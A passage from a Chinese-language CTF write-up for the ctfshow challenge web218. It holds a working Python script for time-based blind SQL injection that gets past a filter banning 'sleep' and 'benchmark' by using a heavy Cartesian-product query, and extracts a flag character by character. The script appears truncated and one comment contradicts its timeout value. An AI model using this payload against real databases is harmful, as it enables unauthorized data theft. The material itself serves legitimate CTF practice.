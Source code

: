 benchmark的设置比较苛刻，要多试试

最好不要设置太大，环境会崩



#### web218

```php
查询语句

       where id = ($id);
      
返回逻辑

    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark/i',$str);
    }   
      
```

这题sleep和benchmark都被ban掉了

可以考虑用笛卡尔积盲注

参考文章：[SQL注入经验-大负荷注入-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1601686)

```python
import requests
import time

url = "http://a17ea2c9-7463-4d5a-bfa5-2f6bdcd2daf1.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1

        # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxc' limit 1,1"
        payload = "select flagaac from ctfshow_flagxc"
        data = {
            'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
            'debug': '1'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=0.15)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            time.sleep(0.2)
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            time.sleep(0.2)
            head = mid + 1
        except Exception as e:
            time.sleep(0.2)
```